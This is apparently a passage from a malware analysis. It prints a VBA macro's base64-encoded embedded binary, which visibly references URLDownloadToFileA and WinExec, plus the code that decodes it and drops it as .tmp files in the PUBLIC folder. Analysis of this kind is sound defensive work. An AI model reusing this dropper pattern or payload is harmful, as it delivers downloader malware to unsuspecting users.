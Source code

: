 ```
    lgstr = lgstr & "YCIAAAAAAAByIgAAAAAAAIAiAAAAAAAAUCIAAAAAAAAAAAAAAAAAAAAAAAAAAAAAV2luaW5ldC5kbGwAAAAAAERlbGV0ZVVybENhY2hlRW50cnlBAAAAAFVybG1vbi5kbGwAAAAAAABVUkxEb3dubG9hZFRvRmlsZUEAAAAAAAAAAAAAYIzhXQAAAAANAAAA1AAAALggAAC4BgAAAAAAAGCM4V0AAAAADgAAAAAAAAAAAAAAAAAAAEdDVEwAEAAA"
    lgstr = lgstr & "vAAAAC50ZXh0JG1uAAAAAAAgAAAoAAAALmlkYXRhJDUAAAAAMCAAAIgAAAAucmRhdGEAALggAADUAAAALnJkYXRhJHp6emRiZwAAAIwhAAAQAAAALnhkYXRhAACgIQAAWgAAAC5lZGF0YQAA/CEAABQAAAAuaWRhdGEkMgAAAAAQIgAAFAAAAC5pZGF0YSQzAAAAACgiAAAoAAAALmlkYXRhJDQAAAAAUCIAAEgAAAAuaWRhdGEkNgAAAAAAMAAA"
    lgstr = lgstr & "DAAAAC5wZGF0YQAAAQ8GAA9kCQAPNAgAD1ILcAAAAAAAAAAAX4zhXQAAAADcIQAAAQAAAAIAAAACAAAAyCEAANAhAADYIQAAsBAAAAAQAADyIQAA9iEAAAAAAQBVcmxEb3dubG9hZFRvRmlsZS5kbGwAUkNQAFJDVAAAACgiAAAAAAAAAAAAAIoiAAAAIAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAYCIAAAAAAAByIgAAAAAAAIAiAAAAAAAA"
    lgstr = lgstr & "UCIAAAAAAAAAAAAAAAAAAKgDTG9hZExpYnJhcnlBAACkAkdldFByb2NBZGRyZXNzAACkAUZyZWVMaWJyYXJ5AN4FV2luRXhlYwBLRVJORUwzMi5kbGwAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA"
    lgstr = lgstr & "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA"
    lgstr = lgstr & "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAQAACmEAAAjCEAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA"
    lgstr = lgstr & "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA"
    lgstr = lgstr & "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA"
```

Code section to write the binary

```
FuEmdPath1 = Environ("PUBLIC") & "\sl1.tmp"
em.Text = lgstr
em.DataType = "bin.base64"
Stream.Type = 1
Stream.Open

Stream.Write em.NodeTypedValue
Stream.SaveToFile FuEmdPath1, 2
```

```
FuEmdPath2 = Environ("PUBLIC") & "\sl2.tmp"
em.Text = lgstr
em.DataType = "bin.base64"
Stream.Type = 1
Stream.Open
Stream.Write em.NodeTypedValue
Stream.SaveToFile FuEmdPath2, 2
```

To verify if it is an actual binary, the early sections of the string can be decoded and examine its header.

![Long String](/images/bubarparlimen/lgstr.png)
